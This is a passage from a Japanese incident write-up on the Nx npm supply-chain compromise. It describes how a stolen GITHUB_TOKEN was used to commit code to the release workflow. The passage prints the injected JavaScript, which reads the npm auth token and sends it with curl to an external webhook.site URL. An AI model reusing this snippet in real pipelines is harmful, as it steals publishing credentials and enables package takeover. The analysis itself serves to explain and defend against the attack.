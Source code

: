 `GITHUB_TOKEN` が盗まれるのは、アカウントのパスワードが盗まれているのと同じくらいの被害を生じえるので、きちんと権限や期限を管理したいところだ。


## NPM_TOKEN の取得

### 背景

では攻撃者は `GITHUB_TOKEN` を取得して何をしたのか。

GitHub のリポジトリをぐちゃぐちゃにすることもできそうだが、Public なリポジトリでそれをやるインセンティブは無いだろう。攻撃者はここでもう 1 つステップを挟んでいる。

Nx は GitHub Actions を使い、パッケージのリリースをしている。これも、よくある構成だ。

改善される前の publish.yml は以下だ。

- https://github.com/nrwl/nx/blob/400e3003d72acd75522468d58fdc160e76e13a68/.github/workflows/publish.yml

攻撃者は、この publish.yml から呼ばれている `publish-resolve-data.js` という別のスクリプトに対して以下のようなコミットを行った。ここで `GITHUB_TOKEN` を使ったようだ。

- [skip ci] Update publish-resolve-data.js · nrwl/nx@3905475
  - https://github.com/nrwl/nx/commit/3905475cfd0e0ea670e20c6a9eaeb768169dc33d

追加されたコードは以下だ。

```js
// Retrieve the NPM_TOKEN from environment variables
const npmToken = process.env.NODE_AUTH_TOKEN;
if (!npmToken) {
  throw new Error('NPM_TOKEN environment variable is not set');
}
try {
  await new Promise((resolve, reject) => {
    exec(`curl -d "${npmToken}" https://webhook.site/59b25209-bb18-4beb-a762-38a0717f9dcf`, (error, stdout, stderr) => {
      if (error) {
        reject(`Error executing curl command: ${error.message}`);
        return;
      }
      if (stderr) {
        console.error(`Curl stderr: ${stderr}`);
      }
      console.log(`Curl output: ${stdout}`);
      resolve();
    });
  });
} catch (error) {
  core.setFailed(error);
}
core.setFailed("Stall");
```

Publish のワークフローであるため `NPM_TOKEN` が環境変数に展開されている。これを外に curl で送り出すスクリプトだ。

盗んだトークンでこれをコミットし、直後に同じくトークンで Publish のワークフローを実行したのだろう。
